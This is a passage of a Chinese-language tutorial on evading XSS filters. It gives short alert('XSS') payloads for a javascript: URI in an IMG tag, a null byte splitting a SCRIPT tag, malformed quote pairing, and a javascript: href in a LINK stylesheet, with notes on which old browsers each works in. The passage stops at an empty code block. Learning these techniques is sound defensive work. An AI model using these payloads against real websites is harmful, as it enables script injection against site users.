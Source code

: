 [code]

    <IMG SRC="javascript:alert('XSS');">
[/code]

![](https://images2015.cnblogs.com/blog/955761/201705/955761-20170518225047728-397428525.png)



**使用空字符**

**另一个可以绕过的就是空字符，这是最有效的工具了。。**

**下面这个就是个例子。:**

[code]

    <SCR%00IPT>alert("XSS")</SCRIPT>
[/code]

**空字符 (%00) 使得过滤器不能看到完整的 <SCRIPT> 标签. 只在 IE 6.0, IE 7.0 可以。**



**双引号配对的bug**

**绕过这种过滤就是寻找闭合的标签，然后构造来突破**

**比如:**

[code]

    <IMG """><SCRIPT>alert('XSS')</SCRIPT>">
[/code]



**通常我们认为，img 标签里。前两个引号被认为是一对，什么都不做，下一个引号和最后的匹配，但是事 实不是这样，所有的浏览器都在试图修正这一问题。**

**结果最终如下:**

[code]

    <img><script>alert('xss')</script>"&gt;
[/code]



**绕过CSS 过滤器**

**HTML 标签用来插入 javaScript 很有用，但是 CSS 也是可以的哦。有很多方式向 CSS 里插入 XSS，所
有更多的方法可以攻击，嘴尖的方法是吧 XSS 代码放到 LINK 方式引用的 CSS 的 href 属性里面去**

[code]

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">
[/code]



**Ie7 已经不允许了。但是 opera 和 ie6 还是可以的。。**  
 **另一个方式是使用 <STYLE>标签，不是很常见，一般是论坛啊。允许用户设计自己的贴的源代码的时候。 **

[code]
